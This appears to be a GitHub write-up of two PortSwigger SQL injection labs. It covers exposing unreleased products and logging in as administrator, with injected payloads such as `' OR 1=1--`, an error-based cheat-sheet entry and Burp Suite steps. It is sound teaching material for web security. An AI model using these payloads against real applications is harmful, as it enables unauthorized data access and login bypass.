 
<h1 align="center">🧠 PortSwigger SQL Injection Labs</h1>

<p align="center">
  <b>🔍 Portswigger SQLi Labs</b><br>
  <i>Lab: SQL Injection vulnerability</i>
</p>

<p align="center">
  <img src="https://img.shields.io/badge/focus-SQL%20Injection-darkred?style=flat-square">
  <img src="https://img.shields.io/badge/goal-Display%20Unreleased%20Products-darkblue?style=flat-square">
</p>

---

<h3 align="center">🤫 Lab 1 - Retrieving Hidden Data via SQL Injection</h3>

<p align="center">
  <b>Lab: SQL Injection Vulnerability allows retriving hidden data</b><br>
  <i>Target: display unreleased products via SQL Injection.</i>
</p>

### 🧠 Lab Context

> This lab contains a SQL injection vulnerability in the product category filter. The application constructs a SQL query like:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Your goal is to perform a SQLi attack and **display unreleased products**.

---

### 🎯 Goal

✅ **Exploit SQL Injection to bypass filter and display unreleased products.**

---

### 🛠️ Basic Injection Strategy

When selecting a category, the app builds the query dynamically without sanitization:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

You can inject a comment to nullify the second condition:

```http
https://insecure-website.com/products?category=Gifts'--
```

🔎 This results in:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

- `--` comments out the rest of the query.
- Now, **all products in 'Gifts'**, released or not, are shown.

---

### 🧪 Test: All Categories (OR Based)

Injecting logic always true to access everything:

```http
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Resulting SQL:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

- `1=1` is always true → All products from all categories shown.

⚠️ **Warning**: Be cautious with `OR 1=1`. It can impact `UPDATE` or `DELETE` operations if reused elsewhere in code.

---

### 🧩 Injection Cheat Sheet

| Injection Type | Payload | Effect |
|----------------|---------|--------|
| Comment | `'--` | Comments out the rest |
| Boolean OR | `' OR 1=1--` | Always true condition |
| Error-Based | `' AND 1=CAST((CHR(113)||CHR(107)||CHR(112)||CHR(107)||CHR(113))||(SELECT (CASE WHEN (1=1) THEN 1 ELSE 0 END))::text||CHR(113)||CHR(122)||CHR(120)||CHR(113)||CHR(113) AS NUMERIC)--` | Can cause errors and leak info |

------

<h3 align="center"> 💉Lab 2 - SQL Injection Vulnerability Allowing Login Bypass </h3>

<p align="center">
  <b>Lab: SQL Injection Vulnerability Allowing Login Bypass</b><br>
  <i>Target: Login as <code>administrator</code> by bypassing authentication via SQL Injection.</i>
</p>

### 🎯 Objective
Perform a SQL injection attack to log in to the application as the `administrator` user.

---

### 🧪 Scenario Description

This lab contains a SQL injection vulnerability in the **login function**.

The application executes a SQL query similar to:

```sql
SELECT * FROM users WHERE username = '<input>' AND password = '<input>'
```

Since the application doesn’t implement proper sanitization, you can exploit this to bypass authentication.

---

### 🧠 Understanding the Attack
Injecting the following payload into the `username` field:
```
administrator'--
```

### Why it works?
This transforms the backend query to:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

Here:
- `--` comments out the rest of the query (including password check)
- Only the username is validated, and since it's correct, login is bypassed

---

### 🧰 Tools Used
- 🔍 **Burp Suite**: Used to intercept and modify HTTP request
- 🔑 **Browser**: To view result post-exploit

---

### 🚦 Steps to Solve
<details>
<summary>📋 <strong>Step-by-step Instructions</strong></summary>

1. Open the target application in your browser.
2. Intercept the login request using **Burp Suite**.
3. Modify the `username` field as follows:

   ```administrator'-- ```
   or 
   username=administrator & inject the payload into the password field = ``` ' OR 1=1 --' ```

4. Leave the password blank or anything.
5. Forward the request.
6. You should now be logged in as the administrator.
</details>

---
### ✅ Lab Status
> ✔️ **Completed** - Successfully bypassed authentication and logged in as administrator.
---


---
### 📚 Learning Takeaways

- SQL comments can terminate rest of a query.
- Boolean logic can bypass conditions.
- Always validate and sanitize user input.

---

### 🚨 Disclaimer

> ⚠️ For **educational purposes only**. Do **not** perform SQLi on systems you don't own or have explicit permission to test.

---

### 🧑‍💻 Author

Built with ❤️ by [PardhuVarma](https://linkedin.com/in/pardhu-sri-rushi-varma-konduru-696886279)

<p align="center">
  <img src="https://img.shields.io/badge/status-Lab%20Completed-darkgreen?style=for-the-badge">
</p>
